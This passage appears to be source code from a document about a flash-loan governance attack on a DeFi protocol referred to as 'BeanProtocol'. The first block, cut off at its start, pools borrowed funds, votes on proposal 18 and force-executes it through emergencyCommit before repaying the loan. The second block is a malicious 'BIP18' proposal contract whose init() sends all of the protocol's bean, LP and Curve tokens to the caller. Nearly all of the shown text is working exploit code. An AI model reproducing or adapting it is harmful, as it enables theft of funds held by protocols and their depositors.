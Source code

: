 ```solidity

            uint256[2] memory amounts2;
            amounts2[0] = 0;
            amounts2[1] = IERC20(crvDTC).balanceOf(address(this));
            ICRV(beanCrvAddress).add_liquidity(amounts2, 0);

            uint256[2] memory amounts3;
            amounts3[0] = IERC20(beanTokenAddress).balanceOf(address(this));
            amounts3[1] = IERC20(lusdAddress).balanceOf(address(this));

            ICRV(beanLusdAddress).add_liquidity(amounts3, 0);

            IBeanProtocol(beanProtocolAddress).deposit(beanCrvAddress, IERC20(beanCrvAddress).balanceOf(address(this)));
            IBeanProtocol(beanProtocolAddress).vote(18);
            IBeanProtocol(beanProtocolAddress).emergencyCommit(18);



            ICRV(beanCrvAddress).remove_liquidity_one_coin(IERC20(beanCrvAddress).balanceOf(address(this)), int128(1), 0);
            ICRV(beanLusdAddress).remove_liquidity_one_coin(IERC20(beanLusdAddress).balanceOf(address(this)), int128(1), 0);

            IERC20(token).transfer(msg.sender, amount0*103/100);
        }
    }
}

```

BIP18:

```solidity
pragma solidity ^ 0.8.0;
interface IERC20{
    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
}
interface Irouter{
        function swapExactETHForTokens(uint , address[] calldata , address , uint)
        external
        payable
        returns (uint[] memory amounts);
}
contract BIP18{
        address public router                   = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
        address public weth                     = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
        address public beanTokenAddress         = 0xDC59ac4FeFa32293A95889Dc396682858d52e5Db;
    function init() public{
        IERC20(0xDC59ac4FeFa32293A95889Dc396682858d52e5Db).transfer(msg.sender, IERC20(0xDC59ac4FeFa32293A95889Dc396682858d52e5Db).balanceOf(address(this)));//bean
        IERC20(0x87898263B6C5BABe34b4ec53F22d98430b91e371).transfer(msg.sender, IERC20(0x87898263B6C5BABe34b4ec53F22d98430b91e371).balanceOf(address(this)));//wethBeanLP
        IERC20(0x3a70DfA7d2262988064A2D051dd47521E43c9BdD).transfer(msg.sender, IERC20(0x3a70DfA7d2262988064A2D051dd47521E43c9BdD).balanceOf(address(this)));//beanCrv
        IERC20(0xD652c40fBb3f06d6B58Cb9aa9CFF063eE63d465D).transfer(msg.sender, IERC20(0xD652c40fBb3f06d6B58Cb9aa9CFF063eE63d465D).balanceOf(address(this)));//beanLusd
    }    
```